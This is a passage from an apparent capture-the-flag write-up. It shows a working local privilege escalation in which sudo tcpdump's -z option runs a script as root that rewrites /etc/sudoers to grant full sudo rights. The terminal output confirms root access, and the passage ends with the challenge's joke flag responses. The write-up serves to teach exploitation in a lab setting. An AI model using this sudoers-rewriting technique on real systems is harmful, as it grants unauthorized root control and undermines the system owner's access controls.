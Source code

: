 "GREAT SUCCESS!" `\(^-^)/`

Now it's just a matter of crafting a more useful payload script. Let's give
ourselfs full sudo permissions ...

```sh
santa@[server]:/home/santa> cat << EOF > /tmp/payload.sh
#!/bin/sh
chmod 777 /etc/sudoers
/bin/sed -i '/root/a santa ALL=(ALL) ALL' /etc/sudoers
chmod 400 /etc/sudoers
EOF

santa@[server]:/home/santa>\
sudo tcpdump -nl -i eth0 -w /dev/zero -W 1 -G 1 -z /tmp/payload.sh -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
0 packets dropped by kernel

santa@[server]:/home/santa> sudo id
[sudo] password for santa: 
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

After getting root privelege more funny business was in order ... `:-D`

```sh
santa@[server]:/home/santa> sudo su
[sudo] password for santa: 

/home/santa # ls



                  (  ) (@@) ( )  (@)  ()    @@    O     @     O     @      O
             (@@@)
         (    )
      (@@@@)

    (   )
   ====        ________                ___________
D _|  |_______/        \__I_I_____===__|_________|
|(_)---  |   H\________/ |   |        =|___ ___|      _________________
/     |  |   H  |  |     |   |         ||_| |_||     _|                \_____A
      |  |   H  |__--------------------| [___] |   =|                        |
 ________|___H__/__|_____/[][]~\_______|       |   -|                        |
/ |   |-----------I_____I [][] []  D   |=======|____|________________________|_
 =| o |=-O=====O=====O=====O \ ____Y___________|__|__________________________|_
-=|___|=    ||    ||    ||    |_____/~\___/          |_D__D__D_|  |_D__D__D_|
_/      \__/  \__/  \__/  \__/      \_/               \_/   \_/    \_/   \_/


/home/santa # find / -iname "*flag*" 2>/dev/zero
404 not found

/home/santa # cat /root/flag.txt
Meow - I like cats

/home/santa # grep '*' /root/flag.txt
its gnugrep

/home/santa # gnugrep '*' /root/flag.txt
```

[findutilsApk]: http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/findutils-4.9.0-r2.apk
[alpineX86Repo]: http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/